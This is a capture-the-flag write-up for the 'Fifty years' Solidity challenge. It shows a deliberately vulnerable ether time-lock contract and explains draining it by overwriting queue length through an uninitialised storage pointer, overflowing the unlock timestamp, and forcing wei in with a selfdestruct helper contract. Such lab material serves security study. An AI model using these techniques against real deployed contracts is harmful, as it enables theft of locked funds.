 # Fifty years
<sup>MATH: 2000 POINTS</sup>

This contract locks away ether. The initial ether is locked away until 50 years has passed, and subsequent contributions are locked until even later.

All you have to do to complete this challenge is wait 50 years and withdraw the ether. If you’re not that patient, you’ll need to combine several techniques to hack this contract.

```solidity
pragma solidity ^0.4.21;

contract FiftyYearsChallenge {
    struct Contribution {
        uint256 amount;
        uint256 unlockTimestamp;
    }
    Contribution[] queue;
    uint256 head;

    address owner;
    function FiftyYearsChallenge(address player) public payable {
        require(msg.value == 1 ether);

        owner = player;
        queue.push(Contribution(msg.value, now + 50 years));
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function upsert(uint256 index, uint256 timestamp) public payable {
        require(msg.sender == owner);

        if (index >= head && index < queue.length) {
            // Update existing contribution amount without updating timestamp.
            Contribution storage contribution = queue[index];
            contribution.amount += msg.value;
        } else {
            // Append a new contribution. Require that each contribution unlock
            // at least 1 day after the previous one.
            require(timestamp >= queue[queue.length - 1].unlockTimestamp + 1 days);

            contribution.amount = msg.value;
            contribution.unlockTimestamp = timestamp;
            queue.push(contribution);
        }
    }

    function withdraw(uint256 index) public {
        require(msg.sender == owner);
        require(now >= queue[index].unlockTimestamp);

        // Withdraw this and any earlier contributions.
        uint256 total = 0;
        for (uint256 i = head; i <= index; i++) {
            total += queue[i].amount;

            // Reclaim storage.
            delete queue[i];
        }

        // Move the head of the queue forward so we don't have to loop over
        // already-withdrawn contributions.
        head = index + 1;

        msg.sender.transfer(total);
    }
}
```

Enjoy this inspirational music while you work: [100 Years](https://www.youtube.com/watch?v=tR-qQcNT_fY). I guess just listen to half of it.


There are involved two problems:

1. `upsert` do overwrite `storage` memory, we can use `msg.value` to manipulate `queue.length`
2. `timestamp` can be overflow

1 days = 86400

115792089237316195423570985008687907853269984665640564039457584007913129553536

| Index | Value     | Amount | Timestamp        | Note                         |
|:------|:----------|:-------|:-----------------|:-----------------------------|
| 0     | 10 ** 18  | =      | now + 50 years   | Initial state                |
| 1     | 1 wei + 1 | 2      | 2 ** 256 - 86400 | Time will overflow next time |
| 2     | 2 wei + 1 | 3      | 0                | Time overflows               |

`withdraw(2)` fails... Why?

Because we're using the `msg.value` to manipulate the `queue` length. Hence, the value that gets pushed in the `queue` variable is not `msg.value` but `queue.length` which is `msg.value + 1`. So `withdraw(2)` will fail because we're trying to withdtaw 1 eth and 5 wei, but the contract only has 1 eth and 3 wei.

To solve this problem we create a `selfdestruct` contract that send the 2 wei we need :D
```
contract Exploit { 
    uint public time = 1 days; // 86400
    uint public timeOverflow = 2 ** 256 - 86400; // 115792089237316195423570985008687907853269984665640564039457584007913129553536

    function destroy(address yayy) public payable {
        selfdestruct(yayy);
    }
}
```

Now we can `withdraw(2)` and complete the challenge